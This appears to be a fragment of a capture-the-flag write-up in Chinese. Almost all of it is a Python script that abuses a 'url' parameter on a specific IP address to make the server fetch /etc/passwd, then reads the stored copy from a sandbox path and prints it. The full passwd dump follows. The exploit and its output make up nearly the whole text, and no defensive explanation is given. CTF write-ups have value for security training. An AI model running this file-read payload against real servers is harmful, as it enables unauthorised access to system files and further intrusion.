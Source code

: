 可以读取etc/passwd

```python
import requests

url = 'http://13.115.136.15/'

exp = '/etc/passwd'
payload = "?url={0}&filename=data"
see = 'sandbox/7d8fc845c741ce6a72fa592b394cf9f3/data'

req = requests.Session()


r = req.get(url+payload.format(exp))
# print r.content

r = req.get(url+see)
print r.content
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
orange:x:1001:1001:,,,:/home/orange:/bin/bash
```
